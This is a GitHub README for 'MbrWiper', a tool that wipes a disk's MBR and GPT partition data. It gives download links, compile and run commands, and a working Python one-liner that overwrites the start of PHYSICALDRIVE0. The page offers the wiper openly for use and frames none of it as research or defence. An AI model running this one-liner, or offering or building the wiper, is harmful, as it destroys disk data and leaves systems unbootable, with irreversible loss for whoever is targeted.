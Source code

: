 ![MbrWiper Logo](https://mauricelambert.github.io/info/c/security/MbrWiper_small.png "MbrWiper logo")

# MbrWiper

## Description

This file implements a little MBR and GPT Wiper.

## Requirements

 - No requirements

## Download

[Download binaries (Linux and Windows Libraries and examples) from latest github release](https://github.com/mauricelambert/MbrWiper/releases/latest).

## Compile

### Download sources

```bash
git clone https://github.com/mauricelambert/MbrWiper.git
cd MbrWiper
```

#### Windows

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper.exe
strip MbrWiper
```

#### Linux

```bash
gcc -Wall -Wextra -Werror -O5 MbrWiper.c -o MbrWiper
strip MbrWiper
```

## Usages

**Privileges required**

### Linux

```bash
./MbrWiper
```

### Windows

```bash
MbrWiper.exe
```

## MBR and GPT Wiper in python oneliner

```python
open("\\\\.\\PHYSICALDRIVE0", "rb+").write(b"a" * 1024)
```

## Links

 - [Github](https://github.com/mauricelambert/MbrWiper/)
 - [Github - compiled executable](https://github.com/mauricelambert/MbrWiper/releases/latest/)
 - [SourceForce - compiled executable](https://sourceforge.net/projects/MbrWiper/files/)

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
